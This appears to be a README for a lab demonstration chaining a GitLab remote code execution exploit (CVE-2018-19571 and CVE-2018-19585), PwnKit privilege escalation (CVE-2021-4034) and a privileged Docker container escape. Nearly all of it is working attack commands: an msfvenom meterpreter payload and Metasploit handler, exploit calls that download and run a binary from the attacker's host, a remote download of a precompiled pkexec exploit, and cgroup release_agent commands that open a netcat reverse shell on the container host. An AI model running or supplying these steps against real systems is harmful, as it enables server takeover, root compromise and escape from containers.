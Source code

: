 # Hack gitlab with container escape

- Demo consists of the follwoing parts:
  - Hack gitlab with CVE-2018-19571 + CVE-2018-19585 to get a reverse shell
  - get root rights within the container via CVE-2021-4034
  - abuse the misconfiguration --privileged of container

![Attack picture](images/attack-graph.png)

## Docker on Ubuntu 20.04 LTS

- i used the following vagrant machine

```
config.vm.define "ub2004" do |ub2004|
  ub2004.vm.provider "virtualbox" do |vb|
    vb.memory = "4096"
  end
  ub2004.vm.box = "ubuntu/focal64"
  ub2004.vm.box_version = "20211021.0.0"
  ub2004.vm.network :private_network, ip: "192.168.56.251"
end
```

- install the following stuff

```bash
apt update && apt remove -y netcat-openbsd && apt install -y netcat-traditional
```

- install docker

```bash
apt install -y ca-certificates curl gnupg lsb-release
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
apt update
apt install -y docker-ce docker-ce-cli containerd.io docker-compose
usermod -a -G docker vagrant
```

- then your docker daemon is in [Rootless mode](https://docs.docker.com/engine/security/rootless/). you have to execute the following commands

```bash
apt install -y uidmap
dockerd-rootless-setuptool.sh uninstall --force
```

- build the container

```bash
docker build -t gitlab-escape -f ./Dockerfile .
```

- start the GitLab application via docker-compose

```bash
docker-compose up
```

- create a new GitLab user (mondoo, mondoo.com)

![GitLab user register](images/gitlab-user-register.png)

- create the meterpreter

```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.56.1 LPORT=4242 -f elf > met
```

- start the metasploit framework

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/meterpreter_reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```

- start the on liner web server

```bash
ruby -run -ehttpd . -p8001
```

- execute the GitLab exploit

```bash
python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c 'curl -vk http://192.168.56.1:8001/met -o /tmp/met'

python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c 'chmod 777 /tmp/met'

python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c '/tmp/met'
```

- now you have a reverse meterpreter connection, type `shell` to get a bash

- get root within the GitLab container

```bash
id
uid=998(git) gid=998(git) groups=998(git)

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es

id
uid=0(root) gid=0(root) groups=0(root),998(git)
```

- to execute the container escape, at first start a new netcat listner

```bash
nc -lvnp 4243
```

- execute the following commands in your reverse root shell

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "nc -e /bin/bash 192.168.56.1 4243" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## kubernetes cluster

### some ideas

- just execute `ps aux` on the container host

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c 'echo \$\$ > /tmp/cgrp/x/cgroup.procs'
```

- reverse shell with netcat

```bash
echo "nc -e /bin/bash 192.168.56.1 4243" >> /cmd
```

```bash
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)" > /tmp/cgrp/release_agent
```

- the pkexec compile exploit can be downloaded from

```
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
```

# Troubelshooting

- if you execute the following command and get `mount: /tmp/cgrp: permission denied.`

```bash
root@46646bb3e291:/# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

- then your docker daemon is in [Rootless mode](https://docs.docker.com/engine/security/rootless/). you have to execute the following commands

```bash
mondoo@mondoo:~$ sudo apt-get install -y uidmap
mondoo@mondoo:~$ dockerd-rootless-setuptool.sh uninstall
+ systemctl --user stop docker.service
Failed to stop docker.service: Unit docker.service not loaded.
+ systemctl --user disable docker.service
Failed to disable unit: Unit file docker.service does not exist.
[INFO] Uninstalled docker.service
[INFO] This uninstallation tool does NOT remove Docker binaries and data.
[INFO] To remove data, run: `/usr/bin/rootlesskit rm -rf /home/mondoo/.local/share/docker`
```

- https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1
